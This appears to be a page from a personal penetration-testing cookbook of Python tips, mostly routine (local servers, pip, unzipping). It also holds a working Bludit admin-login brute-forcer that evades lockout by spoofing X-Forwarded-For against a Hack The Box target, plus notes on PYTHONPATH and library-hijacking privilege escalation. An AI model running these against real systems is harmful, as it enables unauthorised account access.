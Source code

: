 ```yaml
---
layout: default
title: Python
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## References
https://askubuntu.com/questions/86849/how-to-unzip-a-zip-file-from-the-terminal


## Start a local http server
```Python
python3 -m http.server 
python3 -m http.server [port]
python3 -m http.server [--directory IF-NOT-LOCAL] [port]
```

## Start a local ftp server
*Install using `sudo apt install python3-pyftpdlib`.*

```Python
python3 -m pyftpdlib
```

## Installing Python 3.8 and Pip on Windows
Go to `python.org` and download the latest release for Windows. Download and install, **making sure to check the `add to path` checkbox during installation**. Check the installation by testing the Python version at the command line:
```Python
python --version
```

To install Pip, go to `https://bootstrap.pypa.io/get-pip.py` to download the `get-pip.py` file. To install, run:
```Python
python get-pip.py
```

One-liner (credit Heath Adams' Windows PrivEsc Udemy course):
```
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py; python get-pip.py
```

After installation, check the Pip version:
```Python
pip --version
```

## Pip3 update all packages
Kept getting a `missing required parameter 'digestmod'` error when trying to run `crackmapexec` and `impacket`. This seems to be a Python3.8 issue, resolved by updating everything using this command from the HTB forum:
```Python
pip3 list --outdated --format=freeze | grep -v '^-e' | cut -d = -f 1 | xargs -n1 pip3 install -U
```

## Extracting a CSRF token
```Python
import requests
from bs4 import BeautifulSoup

session = requests.session()
page = session.get(url)
soup = BeautifulSoup(page.text, features='lxml')
csrf = soup.find('input', {'name': 'tokenCSRF'})['value']
```

## Bypassing Bludit admin login lockout
```Python
import requests
from bs4 import BeautifulSoup

URL='http://10.10.10.191/admin/login/'

def go(users, passwords):
	for user in users:
		for password in passwords:
			session = requests.session()
			login_page = session.get(URL)
			if login_page.status_code == 200:
				soup = BeautifulSoup(login_page.text, features='lxml')
				csrf = soup.find('input', {'name': 'tokenCSRF'})['value']

				headers = {
					'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
					'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
					'Content-Type': 'application/x-www-form-urlencoded',
					'Cookie': 'BLUDIT-KEY=c59jcu33ghe4rbjb3gimngdau2',
					'X-Forwarded-For': f'{user}{password}', # Setting the X-Forwarded-For to a unique value each time bypasses IP blocking
				}

				params = {
					'tokenCSRF': csrf,
					'username': user,
					'password': password,
					'save': ''
				}

				login_result = session.post(URL, headers = headers, data = params)
				if login_result.status_code == 200:
					if 'location' in login_result.headers:
						location = login_result.headers['location']
						print(f'location: {location}')
						if '/admin/dashboard' in location:
							print(f'[*] {user}:{password} - success!')
							return
					else:
						print(f'[ ] {user}:{password} csrf: {csrf}')
				else:
					print(f'Request to login failed: {login_result.status_code}')
					return
			else:
				print(f'Request for login page failed: {login_page.status_code}')
				return

def getItemsFrom(path):
	return list(filter(None, open(path, 'r').read().split('\n')))


if __name__ == '__main__':
	users = getItemsFrom('/home/kali/HTB/Blunder/wordlists/user-list')
	passwords = getItemsFrom('/home/kali/HTB/Blunder/wordlists/cewl-wordlist')	
	go(users, passwords)
```

## Pretty print json
```Bash
cat file.json | python3 -m json.tool > pretty-printed.json
```

## Include PYTHONPATH in Call (PYTHONPATH Exploit)
You can temporarily include a directory as part of the python path by calling your script using the `PYTHONPATH` variable. This means you can potentially inject a rogue `.py` script into the process by adding the path containing the rogue script to the `PYTHONPATH` variable. For example:
```Bash
// Call a python script.
PYTHONPATH=/path/to/script-to-include.py python3 some-python-script.py

// Or non-python scripts using sudo providing an elevated context.
sudo PYTHONPATH=/path/to/script-to-include.py /path/to/shell-script.sh
```

https://stackoverflow.com/questions/4580101/python-add-pythonpath-during-command-line-module-run/4580120

## Library Hijacking
It may be possible to inject a rogue python library ahead of the official one, depending on the path. If you can write to a folder earlier in the path than the 'official' library, you could inject your own library instead. To check the path, you can use: 
```Python
python -c 'import sys; print(sys.path)'
```

https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7

## Creating an all-in-one Executable from a Python Script
Do this on the machine architecture you want to created, so if you want a Windows executable, use a Windows machine to build it, such as `CommandoVM`.
```Python
// Install pyinstaller.
pip3 install pyinstaller

// Build the executable, the file will be available in the dist folder
pyinstaller --onefile source-script.py
```

## Unzip a file
```Python
import sys
from zipfile import PyZipFile
PyZipFile("/home/user/file.zip").extractall()
```
